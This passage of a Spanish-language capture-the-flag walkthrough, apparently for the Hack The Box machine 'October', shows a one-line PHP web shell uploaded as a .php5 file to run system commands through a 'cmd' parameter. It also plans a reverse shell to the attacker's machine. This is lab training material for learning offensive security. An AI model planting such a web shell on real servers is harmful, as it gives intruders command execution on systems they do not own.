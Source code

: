Así que podemos crearnos un archivo con extensión `php5` y subirlo al servidor:

```bash
❯ cat k4mishell.php5
───────┬───────────────────────────────────────────────────────────
       │ File: k4mishell.php5
───────┼───────────────────────────────────────────────────────────
   1   │ <?php
   2   │     echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
   3   │ ?>
```

![](/assets/images/htb-october/october-shell.png)

Le damos en la opción ***Click here***, se nos abre otra ventana en donde se encuentra nuestro archivo php. Ahora mediante la variable `cmd` podemos ejecutar comandos a nivel de sistema.

![](/assets/images/htb-october/october-cmd.png)

Ahora debemos entablarnos una reverse shell a nuestra máquina de atacante. Probando las reverse shell de [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), vemos que **Netcat** no nos deja, así que vamos por otras vías alternativas; como por ejemplo python. Antes de lanzar la reverse shell, vamos a validar si la máquina cuenta con python:

![](/assets/images/htb-october/october-python.png)
